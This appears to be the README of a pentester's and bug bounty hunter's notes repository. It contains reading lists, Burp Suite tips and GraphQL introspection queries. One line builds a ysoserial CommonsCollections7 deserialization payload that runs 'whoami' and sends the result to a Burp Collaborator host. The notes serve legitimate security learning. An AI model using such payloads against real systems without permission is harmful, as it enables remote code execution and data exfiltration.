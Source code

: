 # EasyG

EasyG started out as a script that I use to automate some information gathering tasks for PenTesting and Bug Hunting. Now it is more than that.

Here I gather all the resources about PenTesting and Bug Bounty Hunting that I find interesting: notes, payloads that I found useful and many links to blogs and articles that I want to read (because having a lot of bookmarks bothered me) and more.

### To Read list
**GraphQL**
- https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application
- https://github.com/righettod/poc-graphql
- https://lab.wallarm.com/graphql-batching-attack/

**Miscellaneous**
- https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/
- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/jwt
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/blogposts.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/media.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/mobile.md
- https://www.bugcrowd.com/hackers/bugcrowd-university/
- https://www.microsoft.com/en-us/msrc/bounty-example-report-submission?rtc=1

### Blog / Writeups / News
- https://pentester.land/list-of-bug-bounty-writeups.html
- https://hackerone.com/hacktivity
- https://portswigger.net/research
- https://www.skeletonscribe.net
- https://cvetrends.com/

### Burp suite

To add a domain + subdomains in advanced scopes: `.*\.test\.com$`

**Cool extensions**
- [Autorize](https://github.com/PortSwigger/autorize)
- [InQL](https://github.com/doyensec/inql)
- [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder)
- [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)

### Ysoserial

Because of `Runtime.exec()`, ysoserial doesn't work well with multiple commands. After some research, I found a way to run multiple sys commands anyway, by using `sh -c $@|sh . echo ` before the multiple commands that we need to run. Here I needed to run the command `host` and `whoami`:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sh -c $@|sh . echo host $(whoami).<MY-'RATOR-ID>.burpcollaborator.net' | gzip | base64
```

### GraphQL

To analyze the schema: [vangoncharov.github.io/graphql-voyager/](https://ivangoncharov.github.io/graphql-voyager/) or [InQL](https://github.com/doyensec/inql) for Burp Suite.

**GraphQL Introspection query**

```
{"query": "{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

```
{query: __schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}# Write your query or mutation here
```

```
{"operationName":"IntrospectionQuery","variables":{},"query":"query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n"}
```
